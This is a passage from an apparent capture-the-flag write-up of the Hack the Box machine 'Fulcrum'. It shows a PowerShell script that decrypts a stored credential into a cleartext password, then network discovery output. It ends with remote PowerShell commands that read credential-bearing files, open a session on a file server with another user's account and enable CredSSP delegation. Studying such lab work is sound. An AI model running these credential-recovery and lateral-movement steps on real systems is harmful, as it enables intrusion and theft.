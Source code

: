 We can modify the script slightly so that it decrypts the password for us. 

_decrypt.ps1_
```Powershell 
$1 = 'WebUser'
$2 = '77,52,110,103,63,109,63,110,116,80,97,53,53,77,52,110,103,63,109,63,110,116,80,97,53,53,48,48,48,48,48,48' -split ','
$3 = '76492d1116743f0423413b16050a5345MgB8AEQAVABpAHoAWgBvAFUALwBXAHEAcABKAFoAQQBNAGEARgArAGYAVgBGAGcAPQA9AHwAOQAwADgANwAxADIAZgA1ADgANwBiADIAYQBjADgAZQAzAGYAOQBkADgANQAzADcAMQA3AGYAOQBhADMAZQAxAGQAYwA2AGIANQA3ADUAYQA1ADUAMwA2ADgAMgBmADUAZgA3AGQAMwA4AGQAOAA2ADIAMgAzAGIAYgAxADMANAA='
$4 = $3 | ConvertTo-SecureString -key $2
[System.Runtime.InteropServices.marshal]::PtrToStringAuto([System.Runtime.InteropServices.marshal]::SecureStringToBSTR($4))
```
_Password of WebUser_
```
PS C:\> .\decrypt.ps1
M4ng£m£ntPa55
PS C:\>
```

### Discovering 192.168.122.x Network
After decrypting the password, the next step was to search for additional containers, virtual machines, or connected networks. 

Running an `ifconfig` we see this machine has many interfaces, which is extremely usual for a Hack the Box machine. A network address that stands our is `192.168.122.1` which is very strange. Likely this machine is dual-homed.

_ifconfig output_
```
www-data@Fulcrum:~$ ifconfig
corp      Link encap:Ethernet  HWaddr 52:54:00:87:ee:c0
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:412 errors:0 dropped:0 overruns:0 frame:0
          TX packets:0 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:32601 (32.6 KB)  TX bytes:0 (0.0 B)

ens32     Link encap:Ethernet  HWaddr 00:50:56:b9:44:f1
          inet addr:10.10.10.62  Bcast:10.10.10.255  Mask:255.255.255.0
          inet6 addr: dead:beef::250:56ff:feb9:44f1/64 Scope:Global
          inet6 addr: fe80::250:56ff:feb9:44f1/64 Scope:Link
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:72492 errors:0 dropped:82 overruns:0 frame:0
          TX packets:35844 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:11175820 (11.1 MB)  TX bytes:5982295 (5.9 MB)

lo        Link encap:Local Loopback
          inet addr:127.0.0.1  Mask:255.0.0.0
          inet6 addr: ::1/128 Scope:Host
          UP LOOPBACK RUNNING  MTU:65536  Metric:1
          RX packets:241 errors:0 dropped:0 overruns:0 frame:0
          TX packets:241 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1
          RX bytes:18409 (18.4 KB)  TX bytes:18409 (18.4 KB)

virbr0    Link encap:Ethernet  HWaddr 52:54:00:9c:e7:10
          inet addr:192.168.122.1  Bcast:192.168.122.255  Mask:255.255.255.0
          UP BROADCAST RUNNING MULTICAST  MTU:1500  Metric:1
          RX packets:53053 errors:0 dropped:0 overruns:0 frame:0
          TX packets:50375 errors:0 dropped:0 overruns:0 carrier:0
          collisions:0 txqueuelen:1000
          RX bytes:3317157 (3.3 MB)  TX bytes:2463028 (2.4 MB)

```

[192.168.30.130]: PS C:\Users\WebUser\Documents> $env:UserName
[192.168.30.130]: PS C:\Users\WebUser\Documents> $env:UserDomain
[192.168.30.130]: PS C:\Users\WebUser\Documents> dir
[192.168.30.130]: PS C:\Users\WebUser\Documents> type .\user.txt
[192.168.30.130]: PS C:\Users\WebUser\Documents> type .\CheckFileServer.ps1
[192.168.30.130]: PS C:\inetpub\wwwroot> dir
[192.168.30.130]: PS C:\inetpub\wwwroot> type web.config
[192.168.30.130]: PS C:\inetpub\wwwroot>
[192.168.30.130]: PS C:\Users\WebUser\Documents> Enter-PSSession -Computername file.fulcrum.local -Credential fulcrum.local\btables
[192.168.30.130]: PS C:\Users\WebUser\Documents> Enable-WSManCredSSP –Role Client –DelegateComputer spoke